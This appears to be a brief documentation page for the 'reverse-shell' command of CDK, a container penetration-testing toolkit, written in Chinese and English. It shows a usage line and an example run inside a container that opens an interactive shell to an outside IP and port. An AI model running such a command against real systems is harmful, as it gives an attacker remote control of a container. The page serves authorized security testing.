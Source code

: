 
在容器中反弹shell到远端服务器。

Spawn an interactive reverse shell to remote IP.

## Usage
```
cdk run reverse-shell <ip>:<port>
```

## Example

```
# inside container
cdk run reverse-shell 39.104.80.49:999
```

![](https://static.cdxy.me/20201124173118_3JKVUq_Screenshot.jpeg)
